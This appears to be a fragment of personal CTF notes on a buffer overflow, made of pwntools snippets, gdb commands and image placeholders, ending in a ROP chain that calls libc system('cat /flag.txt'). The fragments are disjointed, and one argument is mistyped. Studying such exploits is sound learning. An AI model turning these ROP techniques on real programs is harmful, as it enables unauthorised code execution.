 ```py
>>> print(io.recvuntil(b'> ').decode())
```

```sh
(gdb) nexti 40
```

![[Pasted image 20240121220455.png]]
```py
>>> io.sendline(b'test')
```

---

![[Pasted image 20240121221020.png]]
![[Pasted image 20240121221104.png]]

---

```py
>>> hex(libc.sym['system'])
'0x7f8e171f7760'
```

![[Pasted image 20240121221343.png]]

![[Pasted image 20240121221825.png]]

---

![[Buffer Overflow 2024-01-21 22.34.42.excalidraw]]

---

```asm
MOV EDI, 0x1
```

---

```asm
POP EDI
RET
```

---

```py
>>> rop = ROP(libc, badchars=b'\n')
>>> rop.call(libc.sym['exit'], 0)
```

```py
>>> rop = ROP(libc, base, badchar='b\n')
>>> rop.call(libc.sym['system'], 'cat /flag.txt')
>>> rop.call(libc.sym['exit'], 0)
```

---